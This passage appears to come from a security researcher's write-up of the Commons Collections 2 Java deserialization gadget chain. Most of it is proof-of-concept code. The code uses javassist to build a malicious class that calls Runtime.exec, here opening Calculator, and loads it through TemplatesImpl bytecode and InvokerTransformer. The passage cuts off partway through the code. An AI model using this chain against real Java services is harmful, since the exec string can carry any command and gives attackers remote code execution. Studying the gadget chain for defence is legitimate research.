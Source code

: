 <img src="./images/4.png" alt="">

## POC-2
> In order to better meet the requirements in practical use, use InvokerTransformer to trigger the `TemplatesImpl`' newTransformer` to read malicious bytecode to execute commands, and use `javassist` and `TemplatesImpl` to construct

```java
package CommonsCollections2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.*;
import java.io.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.
lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 1:37 am
 */
public class CommonsCollectionsGadget2 {
    public static void CC2() throws NoSuchMethodException, IllegalAccessException, NoSuchFieldException, ClassNotFoundException, NotFoundException, CannotCompileException, IOException{
        Class c1 = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer");
        Constructor constructor = c1.getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("CommonsCollectionsEvilCode");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);
        ctClass.writeFile("./");

        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        TemplatesImpl templates = new TemplatesImpl();
        Class clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
```